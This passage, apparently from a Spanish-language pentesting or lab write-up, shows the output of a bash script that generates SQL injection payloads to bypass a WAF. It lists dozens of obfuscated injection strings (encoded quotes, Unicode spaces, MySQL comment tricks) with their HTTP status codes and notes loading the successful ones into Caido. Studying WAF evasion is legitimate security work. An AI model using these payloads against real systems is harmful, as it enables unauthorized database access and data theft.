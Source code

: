 El cual lo que hace es generar de forma `dinamica` `payloads` de un `SQLi` para intentar `Bypassear` un `WAF` como es en este caso.

Lo configuraremos a nuestras necesidades, echo esto, vamos a ejecutarlo de esta forma:

```shell
bash sqli_dinamico.sh
```

Info:

```
.............................<RESTO DE CODIGO>.....................................
[+] Intento 354 - Payload: %E2%80%99 UNiON/*!515*/ALL%0BSELECT%0A1,2,3,4--%0B
[ ] Código de estado: 403 (Ignorado)
----------------------------------------
[+] Intento 355 - Payload: " OR 2048/10=204--+
[ ] Código de estado: 403 (Ignorado)
----------------------------------------
[+] Intento 356 - Payload: %C0%27 OR CONVERT(90, UNSIGNED)=CONVERT(90, UNSIGNED)--%0B
[ ] Código de estado: 403 (Ignorado)
----------------------------------------
[+] Intento 357 - Payload: %C0%A7%E2%80%99%C0%A7OR%C0%A71=1--%0D
[✓] Código de estado: 200 (INTERESANTE)
----------------------------------------
[+] Intento 358 - Payload: %C0%27/*!MySQL-710.161*/OR/*!*/1=1-- -
[ ] Código de estado: 403 (Ignorado)
----------------------------------------
[+] Intento 359 - Payload: %27%E2%80%82OR%E2%80%8490%E2%80%85=%E2%80%864096--%0A
[✓] Código de estado: 200 (INTERESANTE)
----------------------------------------
[+] Intento 360 - Payload: %27 OR CONVERT(40, UNSIGNED)=CONVERT(40, UNSIGNED)--+
^C
[✓] Ejecución interrumpida por usuario
[✓] Total de payloads probados: 360
[✓] Payloads interesantes encontrados: 70
[✓] Archivo: sql_payloads_1756036266.txt
```

Cuando lo paremos se nos generara un diccionario de `payloads` solamente de los cuales ha tenido algun `exito` que no haya sido un `403` o `404`, por lo que este diccionario lo vamos a cargar en nuestro `Automate` de `CAIDO` y echo esto le daremos a `Run`.
